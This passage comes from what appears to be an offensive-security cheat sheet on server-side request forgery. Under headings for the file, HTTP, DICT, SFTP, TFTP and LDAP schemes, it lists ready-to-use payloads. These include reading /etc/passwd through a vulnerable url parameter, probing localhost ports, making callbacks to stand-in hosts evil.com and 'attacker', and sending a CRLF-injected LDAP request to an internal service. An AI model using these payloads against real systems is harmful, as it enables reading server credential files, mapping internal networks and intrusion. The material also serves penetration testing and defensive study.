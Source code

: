 Allows an attacker to fetch the content of a file on the server

```powershell
file://path/to/file
file:///etc/passwd
file://\/\/etc/passwd
ssrf.php?url=file:///etc/passwd
```

### HTTP

Allows an attacker to fetch any content from the web, it can also be used to scan ports.

```powershell
ssrf.php?url=http://127.0.0.1:22
ssrf.php?url=http://127.0.0.1:80
ssrf.php?url=http://127.0.0.1:443
```

![SSRF stream](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/Images/SSRF_stream.png?raw=true)

The following URL scheme can be used to probe the network

### Dict

The DICT URL scheme is used to refer to definitions or word lists available using the DICT protocol:

```powershell
dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
ssrf.php?url=dict://attacker:11111/
```

### SFTP 

A network protocol used for secure file transfer over secure shell

```powershell
ssrf.php?url=sftp://evil.com:11111/
```

### TFTP

Trivial File Transfer Protocol, works over UDP

```powershell
ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET
```

### LDAP

Lightweight Directory Access Protocol. It is an application protocol used over an IP network to manage and access the distributed directory information service.

```powershell
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
```

